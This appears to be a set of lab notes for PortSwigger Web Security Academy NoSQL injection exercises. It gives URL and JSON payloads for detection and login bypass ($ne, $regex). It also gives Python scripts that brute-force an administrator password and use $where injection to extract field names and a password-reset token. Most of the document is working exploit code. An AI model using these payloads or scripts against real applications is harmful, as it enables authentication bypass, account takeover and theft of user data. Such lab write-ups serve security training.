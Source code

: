 # NoSQL

## Lab: Detecting NoSQL injection

`?category=Gifts%27||1||%27`


## Lab: Exploiting NoSQL operator injection to bypass authentication

```
{"username":{"$regex":".*admin.*"},"password":{"$ne":""}}
```

## Lab: Exploiting NoSQL injection to extract data


Find out password length: `/user/lookup?user=administrator'+%26%26+this.password.length=='8`

Find out password:
```python
import requests

times = 0
cha = 's'

err_msg = "Could not find user"

cookies = {
    "session": "82yFZQZyMarrWnDP6tuCH4zIdBf7ksnr"
}

password = ""
for j in range(8):
    times = j
    for i in range(97, 123):
        cha = chr(i)
        url = "https://0a86004504b1247b8101da65007f0020.web-security-academy.net/user/lookup?user=administrator'+%26%26+this.password[" + str(times) + "]=='" + cha
        response = requests.get(url, cookies=cookies)
        if not err_msg in response.text:
            password += cha
            print(cha, end="")
            break
        else:
            print(".", end="")

print(password)
```


```js
{
    "username":"carlos",
    "password":{
        "$ne": ""
    },
    "$where":"Object.keys(this).length == 5" // how many keys
    "$where":"Object.keys(this)[1].length == 3" // single key's length
    "$where":"Object.keys(this)[1] == username" // single key's name
    "$where":"this.passwordReset.length == 16" // single field value's length
}
```

passwordReset

The following for extract field:

```python
import requests
import json
import string

char_list = list(string.digits + string.ascii_lowercase + string.ascii_uppercase)


err_msg = "Invalid username or password"

url = "https://0a4f006e0378721880b9260700c3005c.web-security-academy.net/login"

cookies = {
    "session": "xwnOrjv6VTKrtX4S1oerJCuJqsVg3RsZ"
}

headers = {
    "Content-Type": "application/json"
}

for i in range(5): # fileds length
    field = ""
    for j in range(13):
        print("the {}th --------".format(j))
        for cha in char_list:

            body = {
                "username":"carlos",
                "password":{
                    "$ne": ""
                },
                "$where":f"Object.keys(this)[{i}].match('^.{{{j}}}{cha}.*')"
            }

            response = requests.post(url, cookies=cookies, headers=headers, data=json.dumps(body))
            if (err_msg in response.text):
                print(".", end="")
            else:
                field += cha
                print(j, cha)
                break
    print(field)
```

The following for extracting passwordReset's value:
```python
value = ""
for i in range(16):
    for cha in char_list:
        body = {
            "username":"carlos",
            "password":{
                "$ne": ""
            },
            "$where":f"this.passwordReset[{i}] == '{cha}'"
        }
        response = requests.post(url, cookies=cookies, headers=headers, data=json.dumps(body))
        if (err_msg in response.text):
            print(".", end="")
        else:
            value+= cha
            print(i, cha)
            break
print(value)
```